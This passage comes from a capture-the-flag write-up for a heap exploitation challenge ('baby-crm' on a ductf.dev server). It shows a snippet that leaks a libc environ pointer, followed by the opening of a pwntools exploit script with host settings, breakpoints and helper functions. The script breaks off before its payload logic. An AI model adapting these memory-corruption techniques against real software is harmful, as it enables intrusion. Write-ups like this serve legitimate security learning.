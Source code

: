 ```python
edit_name(3, b'\x00')
print_help()
add_order(3, b'0', b'cc')
edit_order(3, 0, p64(lib.sym['environ']) + p64(0x20)*2)
show(3)
```

> Actually to prepare a customer for freeing, you can just call `alter_customer` with default switch case, like option `5`, to keep other things untouched. But I didn't notice that during the contest. Stupid me.

## exploit script

> Code is ugly

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu bash -c'.split()
context.arch = 'amd64'

host, port = 'nc 2023.ductf.dev 30014'.split()[1:]
port = int(port)

elf = ELF('./baby-crm_patched')
lib = ELF('./libc.so.6')

script = '''
# help
# breakrva 0x000000000002F32
# new order
# breakrva 0x0000000000028CE
# show customer
breakrva 0x000000000002E4A  
# breakrva 0x000000000003461
# edit name
breakrva 0x000000000002B97
# free Order
# breakrva 0x00000000000305C
# breakrva 0x000000000002504
# check chosen customer 
# breakrva 0x000000000002B97
## edit order 
# breakrva 0x000000000002D26
c
'''
if args.LOCAL:
    p = process(elf.path)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=script)
else:
    p = remote(host, port)

pd = lambda x: struct.pack('d', x)  # pack and unpack double value
ud = lambda x: struct.unpack('d', x)[0]
pf = lambda x: struct.pack('f', x)  # pack and unpack float value
uf = lambda x: struct.unpack('f', x)[0]

def cmd(c):
    p.sendlineafter(b'> ', c)
    
def arg(a):
    p.sendlineafter(b': ', a)
```